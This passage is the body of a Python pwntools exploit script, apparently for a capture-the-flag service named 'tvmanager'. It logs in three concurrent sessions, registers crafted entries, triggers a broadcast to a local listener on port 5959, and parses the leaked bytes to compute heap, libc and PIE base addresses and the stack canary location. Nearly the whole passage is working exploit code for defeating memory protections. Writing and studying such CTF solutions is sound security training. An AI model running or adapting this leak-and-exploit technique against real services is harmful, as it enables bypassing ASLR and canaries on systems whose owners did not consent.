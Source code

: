 ```python
    struct_node *ptr_next;
    struct_node *ptr_prev;
};
'''

if __name__ == '__main__':
    name = ''.join(random.choices(string.ascii_letters, k=0x10)).encode()

    sess1 = tvmanager(HOST, PORT)
    sess1.login(name)
    time.sleep(SLEEP_TICK)

    sess2 = tvmanager(HOST, PORT)
    sess2.login(name)
    time.sleep(SLEEP_TICK)
    
    sess3 = tvmanager(HOST, PORT)
    sess3.login(name)
    time.sleep(SLEEP_TICK)    

    title = b'my_movie'

    sess1.register(title, 0x3f0, b'A' * 0x3f0)
    time.sleep(SLEEP_TICK)

    sess2.register(title, 0x1, b'B' * 0x1)
    time.sleep(SLEEP_TICK)

    leaked = b''
    def listen_background(port):
        global leaked
        l = listen(port)
        c = l.wait_for_connection()
        leaked = c.recv()
        # print(leaked)
        c.close()
        l.close()

    port = 5959
    t = threading.Thread(target=listen_background, args=(port,))
    t.start()

    time.sleep(SLEEP_TICK)
    sess1.broadcast(1)
    t.join()

    assert leaked, "Failed to leak"

    print(f"Leaked: {leaked}")

    node1_addr = u32(b'\x80'+leaked[1:4])
    heap_base = node1_addr - 0x1180
    canary_addr = u32(leaked[-12:-8]) - 0x18
    libc_base = u32(leaked[-20:-16]) - 0x1b35a0
    pie_base = u32(leaked[-16:-12]) - 0x2349

    print(f"heap_base: {hex(heap_base)}")
    print(f"libc_base: {hex(libc_base)}")
    print(f"pie_base: {hex(pie_base)}")
    print(f"node1_addr: {hex(node1_addr)}")
    print(f"&canary: {hex(canary_addr)}")


```